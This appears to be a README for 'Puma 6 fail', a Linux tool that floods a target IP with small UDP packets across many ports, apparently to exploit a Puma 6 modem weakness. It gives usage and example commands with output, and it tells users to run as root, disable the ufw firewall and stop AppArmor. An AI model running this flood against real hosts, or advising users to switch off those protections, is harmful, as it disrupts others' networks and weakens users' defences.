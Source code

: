 ### Puma 6 fail for Linux  
Program for Linux distribution based on Debian and Ubuntu.
- Source: https://github.com/LunNova/Puma6Fail

### Prerequisites
Disable the firewall and AppArmor for testing. This program requires root privileges.

### Usage
- ` chmod +x puma6_fail `
- ` su `
- `chown root:root puma6_fail`
- `ufw disable `
- `systemctl stop apparmor `
- ` ./puma6_fail <target ip=0.0.0.0> <payload length=0> <mbps=1> <ports=50000> <run seconds=-1> `

For example:
- `./puma6_fail 192.168.0.1 0 6 50000 -1 `

 ` Sending 28086.857 UDP pps, 0 bytes payload, 28 bytes IP, 54 bytes ethernet, to 50000 ports at 192.168.0.1 `
  `mbps IP traffic: 6, mbps ethernet traffic: 11.571428 `
 
 ### License
 MIT license.
